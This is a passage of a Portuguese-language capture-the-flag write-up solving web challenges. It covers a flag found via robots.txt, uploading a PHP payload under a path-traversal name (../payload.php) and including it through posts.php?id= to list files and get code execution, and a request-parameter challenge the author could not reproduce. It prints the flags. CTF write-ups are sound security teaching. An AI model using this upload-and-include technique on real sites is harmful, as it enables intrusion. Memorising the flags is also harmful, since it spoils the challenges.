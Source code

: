 ```
**Resolução**

Como a dica sugere, devemos acessar o arquivo robots.txt. Além da flag, o arquivo nos indica o caminho /admin que deverá ser utilizado nos próximos desafios.

``` MACK{Fourth_flag_I_am_not_a_robot} ```

----- 


### Web the flags 05

**Pontuação**
200

**Enunciado**

Agora você precisa encontrar um arquivo oculto no backend. Seu nome não é previsível. Para encontrá-lo, você precisa conseguir ver o que está no diretório acima.

**Resolução**

Devemos inserir um arquivo com o nome ../payload.php e um corpo com o nosso payload.

```
<?php

$fileList = glob('.');

foreach($fileList as $filename){
   echo $filename, '<br>'; 
}
```

Ao acessarmos o arquivo /posts.php?id=../payload.php, teremos impressos todos os arquivos. Encontramos um arquivo .txt na pasta. Ao abrirmos, encontramos a flag:

``` MACK{Fith_flag_G0t_RCE} ```

----- 


### Web the flags 06

**Pontuação**
200

**Enunciado**

Você consegue mostrar a flag na tela ao acessar adicionar_post.php? Analise os dados da requisição e veja o que consegue.

**Resolução**

Ao acessarmos /admin/adicionar_post.php, somos avisados por um alert que devemos incluir na requisição os parâmetros nome e corpo. Ao realizarmos testes, vemos que o arquivo que inserirmos aparecerá na página inicial.

Ao adicionarmos um arquivo, somos redirecionados para uma página que possui a flag impressa.


**obs.: não consegui replicar essa solução, por algum motivo os parametros não eram aceitos.**
